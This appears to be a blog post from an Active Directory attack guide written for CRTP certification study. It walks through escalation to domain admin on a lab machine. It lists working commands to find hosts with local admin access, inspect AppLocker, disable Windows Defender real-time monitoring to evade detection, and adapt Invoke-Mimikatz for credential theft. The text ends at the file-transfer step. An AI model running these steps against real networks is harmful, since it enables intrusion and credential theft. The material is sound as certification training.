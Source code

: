 ```yaml
---
title: Active Directory (AD) | Exploiting Domain Admin (Part 2)
date: 2024-07-03 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 6: Derivative Local Admin Escalation**

**Objective**: Escalate privileges to domain admin using derivative local admin access on dcorp-adminsrv.

### **Identify Machines with Local Admin Access**
- Use Find-PSRemotingLocalAdminAccess.ps1 PowerShell script to identify machines where local admin privileges are available.

```bash
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
- Note down dcorp-adminsrv as having local admin privileges.


### **Check Applocker Configuration**

- Verify Applocker policy on dcorp-adminsrv to understand script execution permissions.

```bash
winrs -r:dcorp-adminsrv reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script
```

- Confirm the presence of Applocker rules allowing scripts from %PROGRAMFILES% and %WINDIR%.

### **Inspect Applocker Policy via PowerShell**

- Enter a PowerShell session on dcorp-adminsrv to check Applocker policy details.

```bash
Enter-PSSession dcorp-adminsrv
$ExecutionContext.SessionState.LanguageMode  # Confirm Constrained Language Mode
Get-AppLockerPolicy -Effective | Select-Object -ExpandProperty RuleCollections
```

- Ensure scripts from %PROGRAMFILES% are allowed for the Everyone group.

### **Disable Windows Defender Real-time Monitoring**

- Disable Windows Defender real-time monitoring on dcorp-adminsrv to evade antivirus detection.

```bash
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

### **Modify and Transfer Invoke-Mimikatz**

- Due to Constrained Language Mode restrictions, modify Invoke-Mimikatz.ps1 to embed function calls and create Invoke-MimikatzEx.ps1.
- Transfer the modified script (Invoke-MimikatzEx.ps1) from your local machine to dcorp-adminsrv.
